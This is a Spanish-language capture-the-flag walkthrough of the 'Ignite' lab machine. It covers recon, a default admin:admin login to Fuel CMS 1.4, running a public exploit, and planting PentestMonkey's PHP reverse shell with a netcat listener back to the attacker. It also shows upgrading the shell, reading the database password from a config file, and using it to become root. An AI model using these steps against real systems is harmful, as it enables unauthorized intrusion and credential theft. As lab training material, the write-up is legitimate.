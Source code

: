 # IGNITE

## Reconocimiento

Iniciamos con un escaneo Nmap para identificar los puertos abiertos, versiones de servicios y demás información relevante:

``nmap -T4 --min-rate=10000 -p- -A IP_MAQUINA_ATACADA``

Explicación de los parámetros:
1. `-T4` -> Define la velocidad del escaneo.
2. `--min-rate=10000` -> Envía al menos 10,000 paquetes por segundo.
3. `-p-` -> Escanea todos los puertos disponibles.
4. `-A` -> Activa un escaneo agresivo para obtener más información.

![Imagen1](/Iginite/assets/2025-02-06%2018_06_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

El escaneo revela que el único puerto abierto es el **80/tcp**, donde se ejecuta un servidor web Apache con **Fuel CMS**. Además, el archivo `robots.txt` indica que la página de inicio de sesión del CMS se encuentra en `/fuel`.

## Explotación de la Web

Accedemos al sitio web en el puerto 80:

![Imagen2](/Iginite/assets/Captura%20de%20pantalla%202025-02-06%20194100.png)

Desde la página principal de Fuel CMS, intentamos iniciar sesión con las credenciales por defecto ``admin:admin``

`http://DIRECCION_DE_LA_WEB_ATACADA/fuel`

![Imagen3](/Iginite/assets/2025-02-06%2018_08_44-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

El sesión es exitoso, por lo que accederemos al panel de control:

![Imagen4](/Iginite/assets/2025-02-06%2018_09_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Al hacer clic en "Click here for your site documentation", obtenemos la versión del CMS instalada, en este caso, **Fuel CMS 1.4**.

![Imagen5](/Iginite/assets/2025-02-06%2018_11_28-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Buscando en Google vulnerabilidades para esta versión, encontramos un exploit para **Fuel CMS 1.4.1**, por lo que lo descargamos.

![Imagen6](</Iginite/assets/2025-02-06 18_14_27-KaliLinux-Hacking - VMware Workstation.png>)

Ejecutamos el exploit con:

``python3 50477.py -u http://DIRECCION_DE_LA_WEB_ATACADA``

![Imagen7](</Iginite/assets/2025-02-06 18_38_46-KaliLinux-Hacking - VMware Workstation.png>)

Descargamos una **reverse shell en PHP** desde PentestMonkey:

``wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz``

![Imagen8](</Iginite/assets/2025-02-06 18_41_01-KaliLinux-Hacking - VMware Workstation.png>)

Extraemos y editamos el archivo `.php`, reemplazando la IP y el puerto:

```php
$ip = "IP_MAQUINA_ATACANTE";
$port = "PUERTO_LIBRE";
```

![Imagen9](</Iginite/assets/2025-02-06 18_42_44-KaliLinux-Hacking - VMware Workstation.png>)

Levantamos un servidor web en nuestra máquina atacante:

``python3 -m http.server 80``

![Imagen10](</Iginite/assets/2025-02-06 18_48_50-KaliLinux-Hacking - VMware Workstation.png>)

Desde el servidor comprometido, descargamos la reverse shell:

![Imagen11](</Iginite/assets/2025-02-06 18_50_09-KaliLinux-Hacking - VMware Workstation.png>)

Antes de ejecutarla, ponemos en escucha nuestro puerto con Netcat:

``nc -nlvp PUERTO_CONFIGURADO``

![Imagen12](</Iginite/assets/2025-02-06 19_01_48-KaliLinux-Hacking - VMware Workstation.png>)

Ejecutamos la reverse shell accediendo desde el navegador:

``http://DIRECCION_DE_LA_WEB_ATACADA/NOMBRE_ARCHIVO_REVERSE_SHELL``

![Imagen13](</Iginite/assets/2025-02-06 19_07_51-KaliLinux-Hacking - VMware Workstation.png>)

## Comprometiendo la Máquina

Si todo ha funcionado correctamente, obtenemos acceso como `www-data` en el sistema remoto:

``whoami``

![Imagen14](</Iginite/assets/2025-02-06 19_08_15-KaliLinux-Hacking - VMware Workstation.png>)

Para mejorar la shell, ejecutamos:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
<CTRL> + Z
stty raw -echo; fg
```

![Imagen15](</Iginite/assets/2025-02-06 19_09_34-KaliLinux-Hacking - VMware Workstation.png>)

Buscamos la primera flag dentro del **home** del usuario comprometido `www-data`:

``cat FLAG.txt``

![Imagen16](</Iginite/assets/2025-02-06 19_10_53-KaliLinux-Hacking - VMware Workstation.png>)

## Escalada de Privilegios

Revisamos la configuración de Fuel CMS en:

``fuel/application/config/database.php``

![Imagen17](</Iginite/assets/2025-02-06 19_11_51-KaliLinux-Hacking - VMware Workstation.png>)

Extraemos la contraseña con:

``cat database.php | grep "pass"``

![Imagen18](</Iginite/assets/2025-02-06 19_16_22-KaliLinux-Hacking - VMware Workstation.png>)

Probamos la contraseña con `su -` para obtener acceso root:

``su -``

Ingresamos la contraseña obtenida (`mememe`).

![Imagen19](</Iginite/assets/2025-02-06 19_19_22-KaliLinux-Hacking - VMware Workstation.png>)

Ya como root, buscamos y mostramos la flag final:

``cat /root/FLAG.txt``

![Imagen20](</Iginite/assets/2025-02-06 19_19_53-KaliLinux-Hacking - VMware Workstation.png>)

¡Máquina comprometida con éxito!

